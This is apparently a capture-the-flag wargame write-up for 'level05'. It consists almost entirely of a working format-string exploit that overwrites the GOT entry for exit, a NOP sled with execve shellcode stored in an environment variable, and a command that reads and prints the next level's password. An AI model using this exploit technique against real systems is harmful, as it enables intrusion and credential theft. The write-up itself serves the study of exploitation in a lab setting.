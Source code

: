 # level05

exit address in GOT: `080497e0`

```c
// cat /tmp/coucou.c
#include <stdlib.h>

int main(void) {
  printf("%p\n",getenv("payload"));
  // 0xffffdfb7
}
```

```py
>>> 0xffffdfb7
4294959031
>>> 0xdfb7 - 8
57263
>>> 0xffff - 0xdfb7
8264
```

```bash
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57263x" + "%10$hn" + "%8264x" + "%11$hn"'; cat) | env -i payload=$(python -c "print '\x90' * 32 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'") ./level05
```

```bash
cat /home/users/level06/.pass
# h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
